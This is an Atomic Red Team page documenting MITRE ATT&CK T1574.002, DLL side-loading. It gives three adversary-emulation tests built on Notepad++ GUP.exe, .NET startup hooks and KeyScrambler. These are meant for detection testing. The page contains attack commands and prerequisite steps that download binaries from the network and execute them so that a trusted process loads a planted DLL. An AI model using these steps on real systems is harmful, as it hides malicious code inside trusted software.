 # T1574.002 - Hijack Execution Flow: DLL Side-Loading
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/002)
<blockquote>

Adversaries may execute their own malicious payloads by side-loading DLLs. Similar to [DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001), side-loading involves hijacking which DLL a program loads. But rather than just planting the DLL within the search order of a program then waiting for the victim application to be invoked, adversaries may directly side-load their payloads by planting then invoking a legitimate application that executes their payload(s).

Side-loading takes advantage of the DLL search order used by the loader by positioning both the victim application and malicious payload(s) alongside each other. Adversaries likely use side-loading as a means of masking actions they perform under a legitimate, trusted, and potentially elevated system or software process. Benign executables used to side-load payloads may not be flagged during delivery and/or execution. Adversary payloads may also be encrypted/packed or otherwise obfuscated until loaded into the memory of the trusted process.(Citation: FireEye DLL Side-Loading)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary](#atomic-test-1---dll-side-loading-using-the-notepad-gupexe-binary)

- [Atomic Test #2 - DLL Side-Loading using the dotnet startup hook environment variable](#atomic-test-2---dll-side-loading-using-the-dotnet-startup-hook-environment-variable)

- [Atomic Test #3 - DLL Search Order Hijacking,DLL Sideloading Of KeyScramblerIE.DLL Via KeyScrambler.EXE](#atomic-test-3---dll-search-order-hijackingdll-sideloading-of-keyscrambleriedll-via-keyscramblerexe)


<br/>

## Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary
GUP is an open source signed binary used by Notepad++ for software updates, and is vulnerable to DLL Side-Loading, thus enabling the libcurl dll to be loaded.
Upon execution, calc.exe will be opened.

**Supported Platforms:** Windows


**auto_generated_guid:** 65526037-7079-44a9-bda1-2cb624838040





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_name | Name of the created process | string | calculator.exe|
| gup_executable | GUP is an open source signed binary used by Notepad++ for software updates | path | PathToAtomicsFolder&#92;T1574.002&#92;bin&#92;GUP.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{gup_executable}"
```

#### Cleanup Commands:
```cmd
taskkill /F /IM #{process_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Gup.exe binary must exist on disk at specified location (#{gup_executable})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{gup_executable}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{gup_executable}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/bin/GUP.exe?raw=true" -OutFile "#{gup_executable}"
```




<br/>
<br/>

## Atomic Test #2 - DLL Side-Loading using the dotnet startup hook environment variable
Utilizing the dotnet_startup_hooks environment variable, this method allows for registering a global method in an assembly that will be executed whenever a .net core application is started. This unlocks a whole range of scenarios, from injecting a profiler to tweaking a static context in a given environment. [blog post](https://medium.com/criteo-engineering/c-have-some-fun-with-net-core-startup-hooks-498b9ad001e1)

**Supported Platforms:** Windows


**auto_generated_guid:** d322cdd7-7d60-46e3-9111-648848da7c02





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_name | Name of the created process | string | calculator.exe|
| preloader_dll | library for interfacing with the dotnet framework | path | PathToAtomicsFolder&#92;T1574.002&#92;bin&#92;preloader.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set DOTNET_STARTUP_HOOKS="#{preloader_dll}"
dotnet -h > nul
echo.
```

#### Cleanup Commands:
```cmd
taskkill /F /IM #{process_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: .Net SDK must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path "C:\Program Files\dotnet\dotnet.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
winget install Microsoft.DotNet.SDK.6 --accept-source-agreements --accept-package-agreements -h > $null
echo.
```
##### Description: preloader must exist
##### Check Prereq Commands:
```powershell
if (Test-Path "#{preloader_dll}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/bin/preloader?raw=true" -OutFile "#{preloader_dll}"
```




<br/>
<br/>

## Atomic Test #3 - DLL Search Order Hijacking,DLL Sideloading Of KeyScramblerIE.DLL Via KeyScrambler.EXE
Various threat actors and malware have been found side loading a masqueraded "KeyScramblerIE.dll" through "KeyScrambler.exe", which can load further executables embedded in modified KeyScramblerIE.dll file.

**Supported Platforms:** Windows


**auto_generated_guid:** c095ad8e-4469-4d33-be9d-6f6d1fb21585






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host 1.Downloading KeyScrambler from official website to temp directory
Invoke-WebRequest -Uri "https://download.qfxsoftware.com/download/latest/KeyScrambler_Setup.exe" -OutFile $env:Temp\KeyScrambler_Setup.exe
Write-Host 2.Installing KeyScrambler with KeyScrambler_Setup.exe from temp directory
Start-Process -FilePath $env:Temp\KeyScrambler_Setup.exe -ArgumentList /S -Wait
Write-Host 3.Copying KeyScrambler.exe to temp folder,to avoid permission issues, which calls KeyScramblerIE.dll in CWD i.e. temp
Copy-Item "C:\Program Files (x86)\KeyScrambler\KeyScrambler.exe" -Destination $env:TEMP\KeyScrambler.exe
Write-Host 4.Executing KeyScrambler.exe, you should see a popup of missing KeyScramblerIE.dll, you can close this popup
Start-Process -FilePath $env:Temp\KeyScrambler.exe
Write-Host 5.A modified KeyScramblerIE.dll can be copied to temp, which can be misused by Attacker
```

#### Cleanup Commands:
```powershell
Write-Host 1.Kindly close the popup window asking for KeyScramblerIE.dll ,so that it gets deleted.

Remove-Item -Path $env:Temp\KeyScrambler_Setup.exe
Start-Process -FilePath "C:\Program Files (x86)\KeyScrambler\Uninstall.exe" -ArgumentList /S -Wait
Remove-Item -Path $env:Temp\KeyScrambler.exe
Write-Host 2.KeyScrambler cleanup completed successfully.
```





<br/>
